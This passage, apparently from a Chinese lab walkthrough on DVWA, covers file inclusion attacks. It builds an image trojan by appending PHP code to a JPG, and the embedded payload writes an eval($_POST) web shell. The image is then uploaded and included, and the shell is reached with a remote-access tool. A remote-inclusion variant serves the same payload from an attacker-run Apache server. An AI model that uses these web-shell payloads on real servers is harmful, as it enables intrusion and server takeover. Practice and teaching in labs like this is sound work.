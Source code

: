 方法一：windows命令

```shell
> copy duck.jpg/b+shell.php duck1.jpg     #通过duck.jpg加上恶意代码shell.php生成木马图片duck1.jpg
```

![image-20220902123943445](C:\Users\xtanx\Desktop\typora\.assets\image-20220902123943445.png)

方法二：edjpgcom工具

将图片拖动到.exe执行文件：

![image-20220902131009198](C:\Users\xtanx\Desktop\typora\.assets\image-20220902131009198.png)

![image-20220902131049745](C:\Users\xtanx\Desktop\typora\.assets\image-20220902131049745.png)

在空白框填入我们的代码：

```php
<?fputs(fopen("shell2.php", "w"),'<?php eval($_POST[password]);?>')?>
```

**b. 上传木马图片**

![image-20220902125209662](C:\Users\xtanx\Desktop\typora\.assets\image-20220902125209662.png)

**c. 执行包含图片文件**

查看图片文件路径：

![image-20220902125503781](C:\Users\xtanx\Desktop\typora\.assets\image-20220902125503781.png)

执行：

![image-20220902125926601](C:\Users\xtanx\Desktop\typora\.assets\image-20220902125926601.png)

**d. 查看已经生成木马文件shell2.php**

![image-20220902130411724](C:\Users\xtanx\Desktop\typora\.assets\image-20220902130411724.png)

**e. 然后通过菜刀连接**：https://192.168.254.177/dvwa/vulnerabilities/fi/shell2.php

### 3.远程文件包含

1.准备远程文件

找一台远程服务器，可以提供网站服务的。通过远程包含的文件去生成木马文件

我这里使用kali来做远程服务器:

```shell
$ systemctl start apache2     # 启动apache服务
$ vim /var/www/html/a.txt
<?fputs(fopen("shell2.php", "w"),'<?php eval($_POST[password]);?>')?>

```

2.执行远程包含文件![image-20220902161827937](C:\Users\xtanx\Desktop\typora\.assets\image-20220902161827937.png)
